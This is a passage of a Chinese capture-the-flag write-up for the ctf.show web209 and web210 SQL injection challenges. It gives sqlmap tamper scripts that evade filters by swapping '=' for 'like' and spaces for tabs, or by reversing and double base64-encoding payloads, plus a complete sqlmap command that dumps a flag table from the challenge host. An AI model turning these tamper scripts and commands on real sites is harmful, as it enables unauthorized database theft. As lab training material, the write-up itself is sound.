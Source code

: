 其实也不用写这么复杂

直接这样也ok的

```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass


def tamper(payload, **kwargs):
    return payload.replace("=", " like ").replace(" ", chr(0x09))
```

payload:

```
python sqlmap.py -u "http://aaa64ad5-5bc1-470b-b485-0549641a1327.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=3oemcboib377tes0fi7ltgh9ba;" --referer=ctf.show -D ctfshow_web --safe-url="http://aaa64ad5-5bc1-470b-b485-0549641a1327.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web209 -T ctfshow_flav --dump
```



#### web210

```
查询语句

//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
      
返回逻辑

//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
      
```

这题会对查询的字符进行两次的base64解密和两次的反转

那我们只需要修改tamper，使传入的payload进行两次base64加密即可

```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY
import base64

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass


def tamper(payload, **kwargs):
    rev1 = payload[::-1].encode()
    encode1 = base64.b64encode(rev1).decode()
    rev2 = encode1[::-1].encode()
    encode2 = base64.b64encode(rev2).decode()
    return encode2
```